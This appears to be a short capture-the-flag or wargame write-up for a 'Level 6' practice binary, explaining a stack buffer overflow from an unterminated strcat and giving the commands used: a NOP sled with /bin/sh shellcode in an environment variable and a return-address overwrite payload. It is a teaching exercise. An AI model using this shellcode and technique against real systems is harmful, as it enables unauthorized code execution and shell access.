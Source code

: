 # Level 6

Also a fairly basic overflow

Used same technique as level 5 w/ environment variable containing giant NOP sled and shellcode.

Buffer overflow happens because of `strcat(greeting, user.name);` where there's not a null terminating byte between user.name and user.password

Needed to set LANG=fr in order to extend the buffer overflow in `greetuser`, though I suspect that it still would've been possible with a fancy Stack pivot trick (because EBP was overrideable)

`
$ export NOP_AND_SHELLCODE=$(python -c "print '\x90' * 130000")$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
$ LANG=fr /levels/level06 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa $(python -c "print 'A' * 26 + '\x10\x0b\xfe\xbf'")`
